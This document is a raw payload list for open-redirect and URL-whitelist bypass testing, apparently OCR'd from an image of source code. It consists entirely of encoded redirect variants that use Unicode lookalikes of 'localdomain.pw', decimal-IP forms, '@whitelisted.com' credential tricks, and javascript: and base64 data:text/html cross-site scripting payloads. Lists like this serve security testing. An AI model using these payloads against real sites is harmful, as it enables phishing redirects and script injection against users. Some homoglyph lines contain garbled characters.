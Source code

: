 ///Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2f%2e%2e
//Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2f%2e%2e
/Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2f%2e%2e
//%2f%2fⓁ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
/%2f%2fⓁ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
%2f$2f216.58.214.206
$2f%2f216.58.214.206%2f%2f
%2f$2f3627734734
$2f%2f3627734734%2f%2f
//%2f%2fgoogle.com
/%2f%2fgoogle.com
$2f%2fgoogle.com
%2f$2fgoogle.com
$2f%2fgoogle.com%2f%2f
%2f3627734734//
%2f3627734734
%2f3627734734%2f%2f
/%2f%5c%2f%67%6f%6f%67%6c%65%2e%63%6f%6d/
/%2f%5c%2f%6c%6f%63%61%6c%64%6f%6d%61%69%6e%2e%70%77/
%2fgoogle.com//
%2fgoogle.com
%2fgoogle.com%2f%2f
////3627734734
///3627734734
//3627734734
/\3627734734
/3627734734
3627734734
//3H6k7lIAiqjfNeN@whitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/
//3H6k7lIAiqjfNeN@whitelisted.com+@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/
//3H6k7lIAiqjfNeN@whitelisted.com@google.com/
//3H6k7lIAiqjfNeN@whitelisted.com+@google.com/
////%5cⓁ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
///%5cⓁ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
//%5cⓁ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
/%5cⓁ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
////%5cgoogle.com
///%5cgoogle.com
//%5cgoogle.com
/%5cgoogle.com
//%5cjavascript:alert(1);
//%5cjavascript:alert(1)
/%5cjavascript:alert(1);
/%5cjavascript:alert(1)
////%5cwhitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
///%5cwhitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
//%5cwhitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
/%5cwhitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
////%5cwhitelisted.com@google.com
///%5cwhitelisted.com@google.com
//%5cwhitelisted.com@google.com
/%5cwhitelisted.com@google.com
/%68%74%74%70%3a%2f%2f%67%6f%6f%67%6c%65%2e%63%6f%6d
%68%74%74%70%3a%2f%2f%67%6f%6f%67%6c%65%2e%63%6f%6d
%68%74%74%70%73%3a%2f%2f%6c%6f%63%61%6c%64%6f%6d%61%69%6e%2e%70%77
//Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ:80?@whitelisted.com/
//Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ:80#@whitelisted.com/
";alert(0);//
data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=
data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+Cg==
data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik8L3NjcmlwdD4=
data:whitelisted.com;text/html;charset=UTF-8,<html><script>document.write(document.domain);</script><iframe/src=xxxxx>aaaa</iframe></html>
//Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ%E3%80%82pw